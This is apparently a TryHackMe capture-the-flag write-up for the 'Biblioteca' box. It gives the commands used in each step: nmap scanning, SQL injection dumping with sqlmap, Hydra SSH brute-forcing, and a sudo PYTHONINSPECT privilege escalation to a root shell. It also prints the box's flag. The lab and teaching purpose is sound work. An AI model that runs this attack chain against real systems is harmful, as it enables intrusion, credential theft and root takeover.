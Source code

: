 ### Biblioteca
Biblioteca is a Linux-based TryHackMe box with a vulnerable Python Flask web app exposed on port 8000. The challenge involves classic web enumeration, SQL injection exploitation, credential harvesting, SSH access, and privilege escalation via Python environment manipulation.

Enumeration
Running Nmap revealed two open ports:

bash
nmap -sC -sV 10.10.234.213
Port 22: OpenSSH 8.2p1

Port 8000: Werkzeug HTTP server (Python/Flask)

Title of page: Login

Note: HTTPS did not work. Switching to HTTP exposed the login page at http://10.10.234.213:8000.

Burp Suite & SQL Injection
Captured a login request via Burp:

POST /login HTTP/1.1
username=test&password=password
Successful login gave back a session cookie and greeted Hi test!!. This string was used as a --string match for SQLMap.

Confirmed SQLi using:

bash
sqlmap -r request.txt --batch --dump
SQLMap detected boolean-based blind injection on username, with MySQL as the backend DBMS. After some time, credentials were dumped, revealing users including smokey and hazel.

SSH Access
Attempted brute-force login with Hydra against hazel:

bash
head -n 5000 /usr/share/wordlists/rockyou.txt > shortlist.txt
hydra -l hazel -P shortlist.txt ssh://10.10.234.213 -t 4 -f -V
Password successfully cracked:

username: hazel
password: hazel
Logged in via SSH and captured user.txt.

Privilege Escalation
Running sudo -l:

User hazel may run the following command as root:
  (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py
The script hashes user input with MD5, SHA1, and SHA256. Attempts to hijack Python modules via PYTHONPATH failed due to permission restrictions in /home/hazel.

Used PYTHONINSPECT=1 to drop into an interactive root Python shell:

bash
sudo PYTHONINSPECT=1 /usr/bin/python3 /home/hazel/hasher.py
After script output, used:

python
import os
os.system("/bin/bash")
Root shell obtained. Navigated to /root and captured:

THM{PytH0n_LiBr@RY_H1j@acKIn6}
Notes & Takeaways
Always test both HTTP and HTTPS when enumerating web services.

Blind SQLi can be slow — use --string and scoped dumping to speed up.

Hydra works best with short, targeted lists and threads.

PYTHONINSPECT=1 is an underrated privilege escalation trick for Python scripts allowed with SETENV.
